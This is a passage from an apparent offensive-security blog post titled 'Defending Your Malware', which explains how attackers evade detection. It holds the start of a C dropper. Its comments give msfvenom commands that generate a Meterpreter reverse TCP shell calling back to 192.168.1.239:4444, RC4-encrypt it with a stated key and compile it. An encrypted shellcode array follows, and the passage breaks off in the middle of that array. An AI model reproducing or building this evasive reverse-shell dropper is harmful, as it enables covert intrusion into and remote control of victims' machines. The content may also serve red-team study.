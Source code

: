 ```yaml
---
title: "Defending Your Malware"
date: "2020-08-11"
categories: 
  - "exploitation"
author: "bats3c"
---
```


Malware is an important part of an engagement, though as many security solutions are now evolving past rudimentary signature comparisons to using more advanced techniques to detect malicious activity, it is important that we as attackers understand the methods they are using and how we can avoid them.

Consider the following code I wrote for example.

```
#include <stdio.h>
#include <windows.h>
#include <wincrypt.h>
#include <tlhelp32.h>

/****************************************************************************************************/
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
// cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
// xxd -i encmeter.bin
// x86_64-w64-mingw32-gcc dropper.c -o dropper.exe
unsigned char encmeter_bin[] = {
  0x6e, 0xdc, 0x5b, 0x2a, 0x59, 0xba, 0x87, 0x64, 0x3e, 0x1d, 0x15, 0xcc,
  0x55, 0x5e, 0x70, 0xdd, 0xf3, 0x57, 0x98, 0x96, 0x2a, 0xd0, 0x0f, 0xe5,
  0x5a, 0xcd, 0xab, 0x28, 0xb3, 0xda, 0xff, 0x70, 0xd5, 0x48, 0x25, 0x7f,
  0xaf, 0x87, 0x0b, 0xd4, 0xd5, 0x89, 0x44, 0xa8, 0x47, 0xc1, 0x0d, 0xce,
  0x17, 0xf3, 0x64, 0x72, 0x70, 0xd4, 0xd8, 0x5f, 0xfe, 0x66, 0xe1, 0x20,
  0x21, 0x89, 0x43, 0xf2, 0xd9, 0x95, 0x17, 0x4e, 0x96, 0xe7, 0x9a, 0xab,
  0xa8, 0x14, 0xc9, 0x85, 0x4c, 0x23, 0x5d, 0x8a, 0x24, 0xef, 0x5e, 0x3b,
  0xe7, 0x14, 0x74, 0x65, 0x6a, 0x20, 0xe2, 0x03, 0x89, 0x84, 0xfa, 0x9d,
  0xf1, 0x97, 0x46, 0xc9, 0x50, 0xc1, 0x07, 0xf6, 0x49, 0xd1, 0x2d, 0x35,
  0x45, 0x66, 0x06, 0xf7, 0x49, 0x9b, 0xc8, 0x0b, 0x0e, 0xc1, 0x3b, 0x71,
  0x7c, 0xef, 0xbe, 0x94, 0xd5, 0x81, 0xbe, 0x5f, 0x81, 0x6c, 0x7f, 0x18,
  0x1e, 0xd7, 0x3f, 0x93, 0x0f, 0x7e, 0x09, 0x2f, 0x53, 0x6c, 0x04, 0x34,
  0x77, 0x61, 0x54, 0x56, 0x8f, 0x43, 0xd7, 0x5b, 0xc3, 0x29, 0x1e, 0x16,
  0xda, 0xf3, 0x58, 0x83, 0x8c, 0xd7, 0xf2, 0x3d, 0x4c, 0xb4, 0x3d, 0xcb,
  0x24, 0xfa, 0x84, 0x00, 0x58, 0x28, 0x96, 0xe0, 0x1b, 0x57, 0x03, 0x2e,
  0xc6, 0xc5, 0x22, 0x31, 0xc1, 0x1d, 0xe4, 0xd5, 0x8a, 0x4c, 0x79, 0x5f,
  0x83, 0x05, 0xe3, 0x73, 0x8c, 0x11, 0x9e, 0x57, 0xcf, 0x5f, 0xa9, 0x7b,
  0x26, 0xfa, 0xc3, 0xad, 0xd1, 0x2c, 0x57, 0x32, 0xbe, 0x3a, 0x41, 0x18,
  0x55, 0x87, 0x74, 0xc0, 0xbf, 0x26, 0xd8, 0x01, 0xf0, 0x15, 0xdd, 0x2b,
  0xe6, 0x35, 0x7a, 0xcc, 0x18, 0x83, 0xf4, 0xdd, 0xc9, 0x75, 0x68, 0x12,
  0x6d, 0x19, 0x10, 0x2b, 0xb6, 0x89, 0x20, 0x35, 0xd4, 0x81, 0x36, 0xe2,
  0x4d, 0xf0, 0xfb, 0x1d, 0x0f, 0xfa, 0xb6, 0x9e, 0x74, 0x2d, 0x51, 0x33,
  0x79, 0xa8, 0xc1, 0xda, 0x55, 0x14, 0x87, 0x44, 0xc2, 0x19, 0x28, 0x28,
  0x8a, 0xe9, 0x24, 0x01, 0x99, 0xae, 0xa4, 0xa1, 0xdf, 0xb1, 0xcf, 0x87,
  0x54, 0x93, 0x51, 0xcc, 0xb7, 0x02, 0x4c, 0x2e, 0xeb, 0xdc, 0x7c, 0x72,
  0xbe, 0x4b, 0x2c, 0xaa, 0x34, 0x44, 0x6f, 0xbb, 0xc5, 0x79, 0x20, 0xb9,
  0x67, 0x52, 0x1e, 0x28, 0x71, 0x40, 0x72, 0xa6, 0x5b, 0x4f, 0xa0, 0xc2,
  0x1e, 0x2e, 0x6f, 0x48, 0x16, 0x1a, 0x3a, 0xfd, 0xb5, 0x9b, 0x84, 0x3c,
  0x9c, 0x4c, 0x61, 0x63, 0xe0, 0x34, 0x57, 0x24, 0xab, 0x6c, 0x3e, 0xb3,
  0x8a, 0x02, 0x74, 0x59, 0x27, 0x20, 0x0f, 0xd5, 0x8e, 0x1e, 0x5c, 0x43,
  0x61, 0xf0, 0x4d, 0x5b, 0xb3, 0x00, 0xea, 0x18, 0xb2, 0xef, 0x43, 0x94,
  0xd8, 0x5d, 0x5d, 0x4b, 0xc6, 0xd9, 0xed, 0x2f, 0xca, 0xed, 0xe1, 0x79,
  0x0c, 0xa1, 0x46, 0x77, 0x78, 0x15, 0x87, 0x9d, 0xea, 0x9e, 0xa6, 0x8b,
  0x10, 0x29, 0x49, 0x28, 0xca, 0xc1, 0x07, 0x19, 0x9b, 0x54, 0xb2, 0x1b,
```